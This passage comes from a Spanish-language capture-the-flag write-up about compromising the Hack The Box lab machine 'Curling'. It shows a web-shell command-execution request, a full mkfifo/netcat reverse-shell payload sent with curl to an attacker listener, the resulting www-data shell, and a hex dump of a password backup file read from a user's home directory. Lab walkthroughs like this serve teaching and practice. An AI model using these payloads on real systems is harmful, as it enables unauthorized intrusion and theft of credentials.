 Para acceder a ese recurso necesitaré la siguiente dirección 'http://10.10.10.150/templates/protostar/error.php?pwn=id'. Cuando accedo puedo ver lo siguiente.<br/>

<img src='/images/portfolio/curling/pwnID.png' width='900' height=auto><br/><br/>

Ahora para obtener un reverse shell con el que pueda interactuar, lo hago de la siguiente manera.<br/>

    ┌──(root㉿kali)-[/home/nico/htb]
    └─# curl http://10.10.10.150/templates/protostar/error.php -G --data-urlencode 'pwn=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.31 1234 > /tmp/f'

<br/>

    ┌──(root㉿kali)-[/home/nico/htb]
    └─# nc -lnvp 1234           
    Listening on 0.0.0.0 1234
    Connection received on 10.10.10.150 52310
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    www-data
    $

Me queda intentar obtener el flag del usuario. Voy a ir a /home a ver que me encuentro.<br/>

    $ cd /home
    $ ls
    floris
    $ cd floris
    $ ls
    admin-area
    password_backup
    user.txt
    $ cat user.txt
    cat: user.txt: Permission denied
    $

Como se ha podido ver, no tengo permiso para abrir el fichero 'user.txt'. Sin embargo hay un fichero llamado 'password_backup' que puede ser interesante, voy a sacar el contenido a ver que es.<br/>

    $ cat password_backup
    00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
    00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
    00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
    00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
    00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
    00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
    00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
    00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
    00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
    00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
    000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
    000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
    000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
    000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
    000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
    000000f0: 819b bb48                                ...H
